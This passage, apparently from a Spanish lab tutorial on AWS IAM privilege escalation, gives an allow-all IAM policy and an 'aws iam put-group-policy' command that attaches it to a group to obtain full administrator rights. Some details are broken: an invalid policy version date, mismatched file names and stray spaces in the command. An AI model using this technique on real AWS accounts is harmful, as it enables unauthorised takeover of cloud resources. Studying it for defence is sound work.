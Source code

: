 <figure><img src="../../../.gitbook/assets/image (30) (2).png" alt=""><figcaption></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil.

### Explotación

Como en el caso anterior, se tiene que generar una política para agregar a un grupo de usuarios

{% code title="admin_policy.json" overflow="wrap" %}
```json
{
    "Version": "202-03-12",
    "Statement": [
        {
            "Sid": "PermitirTodo",
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        }
    ]
}
```
{% endcode %}

Finalmente, se procede con asignar la política a un grupo, requiere de conocer el grupo a cual asignar la política:

{% code overflow="wrap" %}
```bash
aws iam put-group-policy --group-name privesc11- PutGroupPolicy-group --policy-name politica-PrivEsc2- Spartan --policy-document file://admin_politica.json -- profile privesc11
```
{% endcode %}
